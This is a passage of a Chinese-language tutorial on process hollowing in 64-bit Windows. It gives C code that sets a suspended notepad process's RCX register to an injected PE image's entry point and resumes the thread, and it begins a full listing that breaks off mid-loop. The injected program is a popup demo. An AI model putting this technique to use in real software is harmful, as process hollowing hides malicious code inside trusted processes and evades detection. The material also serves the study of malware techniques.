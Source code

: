 在64位进程中，存储入口点的寄存器变成了RCX。可以在创建了挂起的notepad进程后，使用x64dbg附加到这个进程上，看一下各个寄存器的值：

![notepad进程中寄存器的值](image-20210128194208590.png)

其中RCX的值就是<notepad.EntryPoint>。

由于PE文件已经加载到了notepad内存空间中，EntryPoint也发生了相应的变化，故需要对RCX寄存器的值进行修改：

```c
    //修改notepad进程的context，将入口点(rcx寄存器)设置为source.exe的入口点
    CONTEXT targetContext;
    targetContext.ContextFlags = CONTEXT_FULL;
    result = GetThreadContext(pi.hThread, &targetContext);
    if(!result) {
        printf("GetThreadContext Failed: %d\n", GetLastError());
        return -1;
    }
    targetContext.Rcx = newImageBase + entryPoint;
    result = SetThreadContext(pi.hThread, &targetContext);
    if(!result) {
        printf("SetThreadContext Failed: %d\n", GetLastError());
        return -1;
    }
```

### 让挂起的notepad恢复运行

最后，使用ResumeThread恢复notepad的运行：

```c
    ResumeThread(pi.hThread);
    printf("Injected!\n");
    WaitForSingleObject(pi.hThread, INFINITE);
    printf("Wait Complete!\n");
```

然后就能发现，运行的并不是notepad程序，而是一个弹窗程序，这就说明成功进行了进程的替换。

### 完整代码

```c
#include <windows.h>
#include <winternl.h>
#include <stdlib.h>
#include <stdio.h>
#pragma comment(lib, "ntdll.lib")

unsigned char *load_pe64(unsigned char *buf, int *pSizeOfImage, ULONGLONG *pImageBase, DWORD *pEntryPoint) {
    //读取DOS文件头，获取e_lfanew
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)&buf[0];
    //获取映像头
    PIMAGE_NT_HEADERS64 ntHeader = (PIMAGE_NT_HEADERS64)&buf[dosHeader->e_lfanew];
    //根据可选头的SizeOfImage分配内存
    unsigned char *mem = calloc(ntHeader->OptionalHeader.SizeOfImage, 1);
    (*pImageBase) = ntHeader->OptionalHeader.ImageBase;
    (*pEntryPoint) = ntHeader->OptionalHeader.AddressOfEntryPoint;
    (*pSizeOfImage) = ntHeader->OptionalHeader.SizeOfImage;
    //获取节表起始位置
    PIMAGE_SECTION_HEADER sectionHeader = 
        (PIMAGE_SECTION_HEADER)&buf[dosHeader->e_lfanew + sizeof(DWORD) + sizeof(IMAGE_FILE_HEADER) + ntHeader->FileHeader.SizeOfOptionalHeader];
    //将文件头复制到内存中
    memcpy(mem, buf, ntHeader->OptionalHeader.SizeOfHeaders);
    //将每一节的内容依次复制到内存中
    for(int i = 0; i < ntHeader->FileHeader.NumberOfSections; i++) {
        DWORD rva = sectionHeader[i].VirtualAddress;
```